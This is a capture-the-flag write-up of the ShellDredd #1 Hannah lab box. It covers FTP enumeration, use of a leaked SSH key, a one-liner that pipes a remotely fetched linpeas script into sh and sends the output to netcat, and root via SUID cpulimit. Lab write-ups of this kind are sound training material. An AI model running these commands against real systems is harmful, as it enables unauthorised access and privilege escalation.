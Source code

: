 ```yaml
---
title: OnSystem ShellDredd #1 Hannah
author: am-a-circle
date: 2021-04-15 12:00:00 
categories: [OSCP PG Play]
tags: [SUID,easy]
math: false
mermaid: false
---
```



## Overview

"ONSYSTEM: SHELLDREDD #1 HANNAH" is an easy boxes which is great for beginners to learn more about enumerating the poorly configured FTP port to search for sensitive information and escalate to root by exploiting SUID.

|Box Difficulty| Link|
|--|--|
| Easy | [Vulnhub Link](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/) |

For this box I will be attempting it on Offensive security **PG Play** .

## Recon

I always like to start with Masscan to find all open port followed by nmap enumeration.
```bash
masscan -p1-65535 192.168.109.130 --rate=1000 
Discovered open port 21/tcp on 192.168.109.130   
Discovered open port 61000/tcp on 192.168.109.130                              
```


```bash
# Nmap 7.91 scan initiated Sun Apr 11 03:44:50 2021 as: nmap -sV -sC -p 21,61000 -oN /opt/OSCP_PlayG/OnSystemShellDredd/nmap_full.txt 192.168.109.130
Nmap scan report for 192.168.109.130
Host is up (0.25s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.109
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 11 03:45:01 2021 -- 1 IP address (1 host up) scanned in 11.80 seconds

```

Through this we can see that there is a FTP server on port 21 and a SSH at port 61000.

## FTP - TCP 21

We can see that anonymous login is allowed, let's test it:
```bash
# ftp 192.168.109.130
Connected to 192.168.109.130.
220 (vsFTPd 3.0.3)
Name (192.168.109.130:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Next , let's download all the files from the FTP server so we can look through the files :

```bash
 wget -m --no-passive ftp://anonymous:anonymous@192.168.109.130                                                                                                         
--2021-04-13 03:05:02--  ftp://anonymous:*password*@192.168.109.130/                                                                                                       
           => ‘192.168.109.130/.listing’                                                                                                                                   
Connecting to 192.168.109.130:21... connected.                                                                                                                             
Logging in as anonymous ... Logged in!                                                                                                                                    
==> SYST ... done.    ==> PWD ... done.                                                                                                                                   
==> TYPE I ... done.  ==> CWD not needed.                                                                                                                                 
==> PORT ... done.    ==> LIST ... done.       
```

```bash
┌──(root💀kali)-[/opt/OSCP_PlayG/OnSystemShellDredd/192.168.109.130]
└─# ls -laR
.:
total 16
drwxr-xr-x 3 root root 4096 Apr 11 03:52 .
drwxr-xr-x 4 root root 4096 Apr 13 03:05 ..
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .hannah
-rw-r--r-- 1 root root  184 Apr 11 03:52 .listing

./.hannah:
total 16
drwxr-xr-x 2 root root 4096 Apr 11 03:52 .
drwxr-xr-x 3 root root 4096 Apr 11 03:52 ..
-r-------- 1 root root 1823 Aug  6  2020 id_rsa
-rw-r--r-- 1 root root  183 Apr 11 03:52 .listing

```

Great we can see that under the user folder .hannah , there is a id_rsa key. 

```bash
└─# cat id_rsa                     
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
....
HvHD9hkCPIq7Sc/TAAAADXJvb3RAT2ZmU2hlbGwBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----

```

Looking into the content of the file, we can see that this is a OPENSSH PRIVATE KEY, and can use this to ssh into the system as hannah most probably!


## Shell as Hannah

We can see below that if we try to ssh as hannah using the private key,it is ignored as the permission are too open.
```bash
─# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000         
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for '.hannah/id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key ".hannah/id_rsa": bad permissions
hannah@192.168.91.130's password: 
```

Instead we have to ensure that the key is read-writeable by you only before we can ssh as hannah!
```bash
# chmod 600 .hannah/id_rsa 
# ssh -i .hannah/id_rsa hannah@192.168.91.130 -p 61000
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```

With that we are now in the shell as hannah!

## Shell as Root

One of the first things i like to do is run `linpeas.sh`
```bash
#Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out # On Host 
curl HOST-IP:8000/linpeas.sh | sh | nc HOST-IP 9002 #On Victim
```

After running `linpeash.sh` we can see that there is a cpulimit has a SUID permission which we can exploit. This mean we can run cpulimit command as root.
```bash
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════                                                                             
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                   
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                             
strings Not Found                                                                                                                                                         
strace Not Found                                                                                                                                                          
-rwsr-sr-x 1 root root       120K Mar 23  2012 /usr/bin/mawk                                                                                                              
-rwsr-xr-x 1 root root        10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device                                                                                          
-rwsr-sr-x 1 root root        23K Jun 23  2017 /usr/bin/cpulimit             
```

Thus to gain root privileges , we use cpulimit to copy bash into the temp directory, give it a "chmod +s" so that it maintains root privileges from suid.
```bash
hannah@ShellDredd:~$ cpulimit -l 50 -f cp /bin/bash /tmp/bash
Process 1165 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ cpulimit -l 50 -f chmod +s /tmp/bash
Process 1167 detected
Child process is finished, exiting...
hannah@ShellDredd:~$ /tmp/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)

```

And we are root!
